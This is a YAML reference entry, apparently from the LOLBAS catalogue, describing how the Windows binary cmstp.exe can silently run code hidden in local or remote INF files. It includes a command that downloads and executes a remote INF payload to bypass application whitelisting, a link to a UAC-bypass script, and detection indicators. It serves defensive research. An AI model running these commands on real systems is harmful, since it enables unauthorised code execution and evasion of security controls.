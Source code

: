 ```yaml
---
Name: Cmstp.exe
Description: Installs or removes a Connection Manager service profile.
Author: "Oddvar Moe"
Created: "2018-05-25"
Commands:
  - Command: cmstp.exe /ni /s c:\cmstp\CorpVPN.inf
    Description: Silently installs a specially formatted local .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Download and run scriptlets from internet.
    Category: Execute
    Privileges: User
    MitreID: T1191
    MitreLink: https://attack.mitre.org/wiki/Technique/T1191
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
  - Command: cmstp.exe /ni /s https://raw.githubusercontent.com/api0cradle/LOLBAS/master/OSBinaries/Payload/Cmstp.inf
    Description: Silently installs a specially formatted remote .INF without creating a desktop icon. The .INF file contains a UnRegisterOCXSection section which executes a .SCT file using scrobj.dll.
    Usecase: Execute code hidden within an inf file. Execute code directly from Internet.
    Category: AwL bypass
    Privileges: User
    MitreID: T1191
    MitreLink: https://attack.mitre.org/wiki/Technique/T1191
    OperatingSystem: Windows vista, Windows 7, Windows 8, Windows 8.1, Windows 10
Full_Path:
  - Path: C:\Windows\System32\cmstp.exe
  - Path: C:\Windows\SysWOW64\cmstp.exe
Code_Sample:
  - Code:
Detection:
  - IOC: Execution of cmstp.exe should not be normal unless VPN is in use
  - IOC: Cmstp.exe communication towards internet and getting files
Resources:
  - Link: https://twitter.com/NickTyrer/status/958450014111633408
  - Link: https://gist.github.com/NickTyrer/bbd10d20a5bb78f64a9d13f399ea0f80
  - Link: https://gist.github.com/api0cradle/cf36fd40fa991c3a6f7755d1810cc61e
  - Link: https://oddvar.moe/2017/08/15/research-on-cmstp-exe/
  - Link: https://gist.githubusercontent.com/tylerapplebaum/ae8cb38ed8314518d95b2e32a6f0d3f1/raw/3127ba7453a6f6d294cd422386cae1a5a2791d71/UACBypassCMSTP.ps1
  - Link: https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/cmstp
Acknowledgement:
  - Person: Oddvar Moe
    Handle: "@oddvarmoe"
  - Person: Nick Tyrer
    Handle: "@NickTyrer"
---
```

